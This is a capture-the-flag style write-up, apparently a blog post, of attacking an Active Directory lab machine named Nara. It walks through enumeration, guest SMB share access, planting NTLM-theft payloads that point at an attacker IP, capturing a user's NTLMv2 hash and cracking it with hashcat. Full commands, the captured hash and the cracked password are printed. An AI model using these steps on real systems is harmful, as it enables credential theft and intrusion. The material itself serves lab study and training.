

repository: gmrvh/blog · page: pg/nora/index.html · generator: mkdocs

# Nara - Detailed 
## Initial Enumeration
### Port Scanning
A comprehensive port scan revealed several open ports typical of an Active Directory environment:
```
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  ncacn_http
636/tcp   open  ssl/ldap
3268/tcp  open  ldap
3269/tcp  open  ssl/ldap
3389/tcp  open  ms-wbt-server
5985/tcp  open  http (WinRM)
9389/tcp  open  mc-nmf
```
### LDAP Enumeration
LDAP enumeration provided valuable domain information:
- Domain name: nara-security.com
- Domain controller: Nara.nara-security.com
- Certificate information showing valid certificates for the domain
```
domainFunctionality: 7
forestFunctionality: 7
domainControllerFunctionality: 7
rootDomainNamingContext: DC=nara-security,DC=com
ldapServiceName: nara-security.com:nara$@NARA-SECURITY.COM
```
### SMB Enumeration
Using tools like Enum4Linux and SMBMap, I discovered:
- NetBIOS domain name: NARASEC
- Domain SID: S-1-5-21-914744703-3800712539-3320214069
- OS Version: Windows Server 2019 (10.0.20348)
- SMB signing required
Initial SMB connection attempts failed with anonymous and null authentication. This suggested tight security controls were in place.
## Gaining Initial Access
### SMB Share Access
After some testing, I discovered a share named "nara" was accessible using guest authentication. The server treated invalid usernames as guest, allowing me to connect with:
```bash
smbclient \\\\$IP\\nara -U nara-security.com/root%123456
```
Inside the share, I found a note titled "Important.txt" indicating that files in the documents folder were shared and important for the organization.
### NTLM Theft
Leveraging the writable share, I generated NTLM theft payloads to capture authentication hashes:
```bash
python3 '/home/kali/Exploits/ntlm_theft-master/ntlm_theft.py' -g all -s 192.168.45.172 -f nara
```
I uploaded these payloads to the share:
```bash
smbclient \\\\$IP\\nara -U nara-security.com/root%123456
smb: \> mput *
```
This successfully captured an NTLMv2 hash for user Tracy.White:
```
Tracy.White::NARASEC:b057b9f94a9c64db:B0C11E29DA0A65BB9CA8E293AA169052:010100000000000000AF042D6C44DB0162A35B3B6BD974B8000000000200080051004C0034004E0001001E00570049004E002D0051004E0050004A0046005200520041004C004B004B0004003400570049004E002D0051004E0050004A0046005200520041004C004B004B002E0051004C0034004E002E004C004F00430041004C000300140051004C0034004E002E004C004F00430041004C000500140051004C0034004E002E004C004F00430041004C000700080000AF042D6C44DB0106000400020000000800300030000000000000000100000000200000047E57704F8419E0A167948403A511DC6AE0D52E7BFD6C42BFD2C9BE4836695B0A001000000000000000000000000000000000000900260063006900660073002F003100390032002E003100360038002E00340035002E003100370032000000000000000000
```
### Password Cracking
I used Hashcat to crack the captured NTLMv2 hash:
```bash
hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt
```
This yielded the following credentials:
- **Username**: TRACY.WHITE
- **Password**: zqwj041FGX
## Lateral Movement
